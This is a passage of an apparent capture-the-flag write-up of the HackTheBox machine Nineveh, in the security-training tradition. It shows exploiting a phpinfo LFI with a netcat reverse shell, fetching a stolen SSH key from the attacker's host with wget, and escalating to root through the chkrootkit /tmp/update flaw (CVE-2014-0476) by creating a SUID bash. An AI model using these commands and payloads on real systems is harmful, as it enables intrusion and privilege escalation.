ED25519 key fingerprint is SHA256:kxSpgxC8gaU9OypTJXFLmc/2HKEmnDMIjzkkUiGLyuI.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.43' (ED25519) to the list of known hosts.
Ubuntu 16.04.2 LTS
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

288 packages can be updated.
207 updates are security updates.


You have mail.
Last login: Mon Jul  3 00:19:59 2017 from 192.168.0.14
amrois@nineveh:~$
```

We can now also grab the user flag.

```
amrois@nineveh:~$ id
uid=1000(amrois) gid=1000(amrois) groups=1000(amrois)
amrois@nineveh:~$ cat user.txt 
44806bd29adc6f53e502713698465550
amrois@nineveh:~$ 
```

### SSH without Port Knocking


```
www-data@nineveh:/tmp$ wget 10.10.14.6/amrois.key
wget 10.10.14.6/amrois.key
--2021-11-30 10:39:15--  http://10.10.14.6/amrois.key
Connecting to 10.10.14.6:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1676 (1.6K) [application/pgp-keys]
Saving to: 'amrois.key'

amrois.key          100%[===================>]   1.64K  --.-KB/s    in 0.004s  

2021-11-30 10:39:15 (408 KB/s) - 'amrois.key' saved [1676/1676]

www-data@nineveh:/tmp$ ls -la amrois.key
ls -la amrois.key
-rw-rw-rw- 1 www-data www-data 1676 Nov 29 08:32 amrois.key
www-data@nineveh:/tmp$ chmod 600 amrois.key
chmod 600 amrois.key
www-data@nineveh:/tmp$ ls -la amrois.key
ls -la amrois.key
-rw------- 1 www-data www-data 1676 Nov 29 08:32 amrois.key
www-data@nineveh:/tmp$ ssh -i amrois.key amrois@127.0.0.1
ssh -i amrois.key amrois@127.0.0.1
Could not create directory '/var/www/.ssh'.
The authenticity of host '127.0.0.1 (127.0.0.1)' can't be established.
ECDSA key fingerprint is SHA256:aWXPsULnr55BcRUl/zX0n4gfJy5fg29KkuvnADFyMvk.
Are you sure you want to continue connecting (yes/no)? yes
yes
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts).
Ubuntu 16.04.2 LTS
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

288 packages can be updated.
207 updates are security updates.


You have mail.
Last login: Tue Nov 30 07:52:02 2021 from 10.10.14.6
amrois@nineveh:~$ id
id
uid=1000(amrois) gid=1000(amrois) groups=1000(amrois)
amrois@nineveh:~$
```

## Gaining Access - phpinfo & LFI

In order to exploit the phpinfo LFI vulnerability, we need to be able to upload files. If we look at the output from the phpinfo page, we can see that the setting "file\_uploads" is enabled.



The following screenshot was taken from the article [https://insomniasec.com/cdn-assets/LFI\_With\_PHPInfo\_Assistance.pdf](https://insomniasec.com/cdn-assets/LFI\_With\_PHPInfo\_Assistance.pdf), which describes this vulerability.



We can test to verify the vulnerability as shown below:

.JPG>)

There is a python script available at the following location, which can assist with this exploit:

{% embed url="https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/File%20Inclusion/phpinfolfi.py" %}

Modify the script where applicable. Start a netcat listener and run the exploit to get a shell as "www-data"

```
└─$ python phpinfolfi.py 10.10.10.43 80 100
LFI With PHPInfo()
-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
Getting initial offset... found [tmp_name] at 125164
Spawning worker pool (100)...
 286 /  1000^C
```

```
└─$ nc -nvlp 1111             
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1111
Ncat: Listening on 0.0.0.0:1111
Ncat: Connection from 10.10.10.43.
Ncat: Connection from 10.10.10.43:34892.
bash: cannot set terminal process group (1372): Inappropriate ioctl for device
bash: no job control in this shell
www-data@nineveh:/var/www/html/department$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@nineveh:/var/www/html/department$ 
```

## Enumeration as "amrois"

Let's se there are any binaries with the SUID bit set:

```
amrois@nineveh:~$ find / -perm -4000 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/pkexec
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/sudo
/usr/bin/at
/bin/ping6
/bin/ping
/bin/mount
/bin/umount
/bin/ntfs-3g
/bin/su
/bin/fusermount
amrois@nineveh:~$ 
```

There are quite a few, but none of them will give us a path to privilege escalation.

Let's check which files we can write to on the target:

```
amrois@nineveh:~$ find / -path /proc -prune -o -writable -user amrois 2>/dev/null
/tmp/tmux-1000
/home/amrois
/home/amrois/.config
/home/amrois/.config/lxc
/home/amrois/.config/lxc/client.crt
/home/amrois/.config/lxc/client.key
/home/amrois/.bash_logout
/home/amrois/.bashrc
/home/amrois/.cache
/home/amrois/.cache/motd.legal-displayed
/home/amrois/.gnupg
/home/amrois/.gnupg/pubring.gpg
/home/amrois/.gnupg/gpg.conf
/home/amrois/.gnupg/trustdb.gpg
/home/amrois/.profile
/home/amrois/.ssh
/home/amrois/.ssh/authorized_keys
/proc
/run/user/1000
/run/user/1000/systemd
/run/user/1000/systemd/private
/run/user/1000/systemd/notify
/run/screen/S-amrois
/report
/report/report-21-11-30:09:30.txt
/report/report-21-11-30:09:33.txt
/report/report-21-11-30:09:34.txt
/report/report-21-11-30:09:31.txt
/report/report-21-11-30:09:32.txt
/usr/sbin/report-reset.sh
/dev/pts/1
/sys/fs/cgroup/systemd/user.slice/user-1000.slice/user@1000.service
/sys/fs/cgroup/systemd/user.slice/user-1000.slice/user@1000.service/tasks
/sys/fs/cgroup/systemd/user.slice/user-1000.slice/user@1000.service/cgroup.procs
/sys/fs/cgroup/systemd/user.slice/user-1000.slice/user@1000.service/init.scope
/sys/fs/cgroup/systemd/user.slice/user-1000.slice/user@1000.service/init.scope/tasks
/sys/fs/cgroup/systemd/user.slice/user-1000.slice/user@1000.service/init.scope/cgroup.procs
/sys/fs/cgroup/systemd/user.slice/user-1000.slice/user@1000.service/init.scope/cgroup.clone_children
/sys/fs/cgroup/systemd/user.slice/user-1000.slice/user@1000.service/init.scope/notify_on_release
/var/mail/amrois
/var/lib/lxcfs/cgroup/name=systemd/user.slice/user-1000.slice/user@1000.service
/var/lib/lxcfs/cgroup/name=systemd/user.slice/user-1000.slice/user@1000.service/tasks
/var/lib/lxcfs/cgroup/name=systemd/user.slice/user-1000.slice/user@1000.service/cgroup.procs
/var/lib/lxcfs/cgroup/name=systemd/user.slice/user-1000.slice/user@1000.service/init.scope
/var/lib/lxcfs/cgroup/name=systemd/user.slice/user-1000.slice/user@1000.service/init.scope/tasks
/var/lib/lxcfs/cgroup/name=systemd/user.slice/user-1000.slice/user@1000.service/init.scope/cgroup.procs
/var/lib/lxcfs/cgroup/name=systemd/user.slice/user-1000.slice/user@1000.service/init.scope/cgroup.clone_children
/var/lib/lxcfs/cgroup/name=systemd/user.slice/user-1000.slice/user@1000.service/init.scope/notify_on_release
amrois@nineveh:~$ 
```

There is a shell script that we have write access to, as well as an unusual directory "/report". Let's have a look at these:

```
amrois@nineveh:~$ ls -la /usr/sbin/report-reset.sh 
-rwxr-x--- 1 amrois amrois 34 Jul  2  2017 /usr/sbin/report-reset.sh
amrois@nineveh:~$ cat /usr/sbin/report-reset.sh
#!/bin/bash

rm -rf /report/*.txt

amrois@nineveh:~$ ls -la /report
total 80
drwxr-xr-x  2 amrois amrois 4096 Nov 30 09:38 .
drwxr-xr-x 24 root   root   4096 Jan 29  2021 ..
-rw-r--r--  1 amrois amrois 4857 Nov 30 09:30 report-21-11-30:09:30.txt
-rw-r--r--  1 amrois amrois 4857 Nov 30 09:31 report-21-11-30:09:31.txt
-rw-r--r--  1 amrois amrois 4857 Nov 30 09:32 report-21-11-30:09:32.txt
-rw-r--r--  1 amrois amrois 4857 Nov 30 09:33 report-21-11-30:09:33.txt
-rw-r--r--  1 amrois amrois 4857 Nov 30 09:34 report-21-11-30:09:34.txt
-rw-r--r--  1 amrois amrois 4857 Nov 30 09:35 report-21-11-30:09:35.txt
-rw-r--r--  1 amrois amrois 4857 Nov 30 09:36 report-21-11-30:09:36.txt
-rw-r--r--  1 amrois amrois 4857 Nov 30 09:37 report-21-11-30:09:37.txt
-rw-r--r--  1 amrois amrois 4857 Nov 30 09:38 report-21-11-30:09:38.txt
amrois@nineveh:~$ 
```

The script is deleting anything in the "/report" directory with a .txt extension. Let's see if we have any cron jobs running.

```
amrois@nineveh:~$ crontab -l | grep -v '#'
*/10 * * * * /usr/sbin/report-reset.sh

amrois@nineveh:~$ 
```

The script is deleting the text files in the "/report" directory every 10 minutes.

Something else must be creating these text files, which are being added once a minute, based on the timestamps. Viewing one of the files reveals that the program is looking for malware. We also note that it successfully identified our "cmd.php" file.

```
amrois@nineveh:~$ cat /report/report-21-11-30\:09\:40.txt 
ROOTDIR is `/'
Checking `amd'... not found
Checking `basename'... not infected
Checking `biff'... not found
Checking `chfn'... not infected
Checking `chsh'... not infected
Checking `cron'... not infected
Checking `crontab'... not infected
Checking `date'... not infected
Checking `du'... not infected
Checking `dirname'... not infected
Checking `echo'... not infected
Checking `egrep'... not infected
Checking `env'... not infected
Checking `find'... not infected
Checking `fingerd'... not found
Checking `gpm'... not found
Checking `grep'... not infected
Checking `hdparm'... not infected
Checking `su'... not infected
Checking `ifconfig'... not infected
Checking `inetd'... not tested
Checking `inetdconf'... not found
Checking `identd'... not found
Checking `init'... not infected
Checking `killall'... not infected
Checking `ldsopreload'... can't exec ./strings-static, not tested
Checking `login'... not infected
Checking `ls'... not infected
Checking `lsof'... not infected
Checking `mail'... not found
Checking `mingetty'... not found
Checking `netstat'... not infected
Checking `named'... not found
Checking `passwd'... not infected
Checking `pidof'... not infected
Checking `pop2'... not found
Checking `pop3'... not found
Checking `ps'... not infected
Checking `pstree'... not infected
Checking `rpcinfo'... not found
Checking `rlogind'... not found
Checking `rshd'... not found
Checking `slogin'... not infected
Checking `sendmail'... not found
Checking `sshd'... not infected
Checking `syslogd'... not tested
Checking `tar'... not infected
Checking `tcpd'... not infected
Checking `tcpdump'... not infected
Checking `top'... not infected
Checking `telnetd'... not found
Checking `timed'... not found
Checking `traceroute'... not found
Checking `vdir'... not infected
Checking `w'... not infected
Checking `write'... not infected
Checking `aliens'... no suspect files
Searching for sniffer's logs, it may take a while... nothing found
Searching for HiDrootkit's default dir... nothing found
Searching for t0rn's default files and dirs... nothing found
Searching for t0rn's v8 defaults... nothing found
Searching for Lion Worm default files and dirs... nothing found
Searching for RSHA's default files and dir... nothing found
Searching for RH-Sharpe's default files... nothing found
Searching for Ambient's rootkit (ark) default files and dirs... nothing found
Searching for suspicious files and dirs, it may take a while... 
/lib/modules/4.4.0-62-generic/vdso/.build-id
/lib/modules/4.4.0-62-generic/vdso/.build-id
Searching for LPD Worm files and dirs... nothing found
Searching for Ramen Worm files and dirs... nothing found
Searching for Maniac files and dirs... nothing found
Searching for RK17 files and dirs... nothing found
Searching for Ducoci rootkit... nothing found
Searching for Adore Worm... nothing found
Searching for ShitC Worm... nothing found
Searching for Omega Worm... nothing found
Searching for Sadmind/IIS Worm... nothing found
Searching for MonKit... nothing found
Searching for Showtee... nothing found
Searching for OpticKit... nothing found
Searching for T.R.K... nothing found
Searching for Mithra... nothing found
Searching for LOC rootkit... nothing found
Searching for Romanian rootkit... nothing found
Searching for Suckit rootkit... Warning: /sbin/init INFECTED
Searching for Volc rootkit... nothing found
Searching for Gold2 rootkit... nothing found
Searching for TC2 Worm default files and dirs... nothing found
Searching for Anonoying rootkit default files and dirs... nothing found
Searching for ZK rootkit default files and dirs... nothing found
Searching for ShKit rootkit default files and dirs... nothing found
Searching for AjaKit rootkit default files and dirs... nothing found
Searching for zaRwT rootkit default files and dirs... nothing found
Searching for Madalin rootkit default files... nothing found
Searching for Fu rootkit default files... nothing found
Searching for ESRK rootkit default files... nothing found
Searching for rootedoor... nothing found
Searching for ENYELKM rootkit default files... nothing found
Searching for common ssh-scanners default files... nothing found
Searching for suspect PHP files... 
/var/tmp/cmd.php

Searching for anomalies in shell history files... Warning: `//root/.bash_history' is linked to another file
Checking `asp'... not infected
Checking `bindshell'... not infected
Checking `lkm'... not tested: can't exec 
Checking `rexedcs'... not found
Checking `sniffer'... not tested: can't exec ./ifpromisc
Checking `w55808'... not infected
Checking `wted'... not tested: can't exec ./chkwtmp
Checking `scalper'... not infected
Checking `slapper'... not infected
Checking `z2'... not tested: can't exec ./chklastlog
Checking `chkutmp'... not tested: can't exec ./chkutmp
Checking `OSX_RSPLUG'... not infected
amrois@nineveh:~$ 
```

We need to try and figure out what program is creating these files. To do this, we'll use pspy64. Transfer the binary to the target and run it.



```
amrois@nineveh:~$ ./pspy64 
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855
2021/11/30 09:49:01 CMD: UID=0    PID=5874   | /bin/bash /root/vulnScan.sh 
2021/11/30 09:49:01 CMD: UID=0    PID=5873   | /bin/bash /root/vulnScan.sh 
2021/11/30 09:49:01 CMD: UID=0    PID=5872   | /bin/sh -c /root/vulnScan.sh 
2021/11/30 09:49:01 CMD: UID=0    PID=5871   | /usr/sbin/CRON -f 
2021/11/30 09:49:01 CMD: UID=0    PID=5876   | /bin/sh /usr/bin/chkrootkit 
...
2021/11/30 09:50:01 CMD: UID=0    PID=6831   | /usr/sbin/CRON -f 
2021/11/30 09:50:01 CMD: UID=0    PID=6830   | /bin/sh -c /root/vulnScan.sh 
2021/11/30 09:50:01 CMD: UID=0    PID=6829   | /usr/sbin/CRON -f 
2021/11/30 09:50:01 CMD: UID=0    PID=6828   | /usr/sbin/CRON -f 
2021/11/30 09:50:01 CMD: UID=0    PID=6832   | /bin/sh -c /root/vulnScan.sh 
2021/11/30 09:50:01 CMD: UID=1000 PID=6833   | /bin/bash /usr/sbin/report-reset.sh 
2021/11/30 09:50:01 CMD: UID=0    PID=6836   | date +%y-%m-%d:%H:%M 
2021/11/30 09:50:01 CMD: UID=1000 PID=6835   | 
2021/11/30 09:50:01 CMD: UID=0    PID=6834   | /bin/bash /root/vulnScan.sh 
2021/11/30 09:50:01 CMD: UID=0    PID=6837   | /bin/sh /usr/bin/chkrootkit 
...

```

We can see from the output that it looks like the script "/root/vulnScan.sh" is being run, which in turn runs "/usr/bin/chkrootkit", among other commands.

Let's check the exploit database for "chkrootkit".

```
└─$ searchsploit chkrootkit                                                           
-------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                  |  Path
-------------------------------------------------------------------------------- ---------------------------------
Chkrootkit - Local Privilege Escalation (Metasploit)                            | linux/local/38775.rb
Chkrootkit 0.49 - Local Privilege Escalation                                    | linux/local/33899.txt
-------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results

```

There is a known local privilege escalation exploit. Let's have a closer look.



> We just found a serious vulnerability in the chkrootkit package, which may allow local attackers to gain root access to a box in certain configurations (/tmp not mounted noexec).

## Privilege Escalation

Tp exploit the "chkrootkit" vulnerability (CVE-2014-0476), we need to create a file named "update" in the "/tmp" directory. We'll add some commands in the file to give us escalated privileges. Note that we could escalate our privileges multiple different ways using this vulnerability, we just chose to do it this way arbitrarily.

&#x20;First, create the "/tmp/update" file. Then wait up to a minute, and check our home directory for the new SUID binary. We can then run the binary to get a shell as root, and grab the root flag.

```
amrois@nineveh:~$ cat /tmp/update
#!/bin/bash
cp /bin/bash /home/amrois/priv; chown root:root /home/amrois/priv; chmod u+s /home/amrois/priv
amrois@nineveh:~$ ls -la priv
-rwsr-xr-x 1 root root 1037528 Nov 30 10:28 priv
amrois@nineveh:~$ ./priv -p
priv-4.3# id
uid=1000(amrois) gid=1000(amrois) euid=0(root) groups=1000(amrois)
priv-4.3# cat /root/root.txt
d722a562ce34f9bfd663ac512e64e515
priv-4.3# 
```

## Resources














